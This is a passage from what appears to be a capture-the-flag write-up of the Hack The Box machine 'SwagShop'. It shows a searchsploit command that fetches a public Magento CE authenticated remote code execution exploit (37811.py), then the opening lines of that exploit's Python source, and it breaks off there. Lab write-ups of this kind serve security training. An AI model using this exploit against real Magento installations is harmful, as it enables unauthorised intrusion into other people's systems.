   ![80 Admin Panel](./screenshots/80_admin_panel.png)

4. Attempt Remote Code Execution using __`37811.py`__:
   1. Download the exploit:
      ```console
      $ searchsploit -m exploits/php/webapps/37811.py
          Exploit: Magento CE < 1.9.0.1 - (Authenticated) Remote Code Execution
              URL: https://www.exploit-db.com/exploits/37811
             Path: /usr/share/exploitdb/exploits/php/webapps/37811.py
        File Type: Python script, ASCII text executable, with CRLF line terminators
        
        Copied to: /root/Desktop/htb_boxes/SwagShop/exploits/37811.py
      ```
   2. Inspect the exploit:
      ```py
      # ...omitted...
      from hashlib import md5
      import sys
      import re
      import base64
      import mechanize
      
      
      def usage():
          print "Usage: python %s <target> <argument>\nExample: python %s http://localhost \"uname -a\""
          sys.exit()
      